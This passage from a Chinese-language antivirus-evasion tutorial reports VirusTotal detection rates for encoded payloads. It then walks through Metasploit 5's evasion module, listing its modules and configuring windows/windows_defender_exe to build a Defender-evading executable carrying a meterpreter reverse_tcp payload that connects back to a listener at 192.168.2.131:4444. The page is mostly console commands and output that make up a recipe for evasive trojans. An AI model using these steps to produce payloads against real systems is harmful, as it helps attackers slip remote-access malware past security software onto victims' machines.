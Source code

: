 [![B8D65n.md.png](https://s1.ax1x.com/2020/10/29/B8D65n.md.png)](https://imgchr.com/i/B8D65n)

VT免杀率49/71.。火绒秒杀。

免杀率也没提高多少，甚至有时候会减低。

是因为各种编码引入了更多的特征码。同时生成的payload也很可能无法正常执行，这个也和被捆绑程序有一定关联。

#### 10.8 evasion 模块免杀（21/61）

2019年1月，metasploit升级到了5.0，引入了一个新的模块叫Evasion模块，官方宣称这个模块可以创建反杀毒软件的木马。

```bash
msf5 > show evasion

evasion
=======

   #  Name                                         Disclosure Date  Rank    Check  Description
   -  ----                                         ---------------  ----    -----  -----------
   0  windows/applocker_evasion_install_util                        manual  No     Applocker Evasion - .NET Framework Installation Utility
   1  windows/applocker_evasion_msbuild                             manual  No     Applocker Evasion - MSBuild
   2  windows/applocker_evasion_presentationhost                    manual  No     Applocker Evasion - Windows Presentation Foundation Host
   3  windows/applocker_evasion_regasm_regsvcs                      manual  No     Applocker Evasion - Microsoft .NET Assembly Registration Utility
   4  windows/applocker_evasion_workflow_compiler                   manual  No     Applocker Evasion - Microsoft Workflow Compiler
   5  windows/windows_defender_exe                                  manual  No     Microsoft Windows Defender Evasive Executable
   6  windows/windows_defender_js_hta                               manual  No     Microsoft Windows Defender Evasive JS.Net and HTA

```



使用`use windows/windows_defender_exe`进行生成payload

```bash
msf5 > use windows/windows_defender_exe
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 evasion(windows/windows_defender_exe) > show options 

Module options (evasion/windows/windows_defender_exe):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  Hmotkr.exe       yes       Filename for the evasive file (default: random)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.2.131    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Evasion target:

   Id  Name
   --  ----
   0   Microsoft Windows
msf5 evasion(windows/windows_defender_exe) > exploit 
```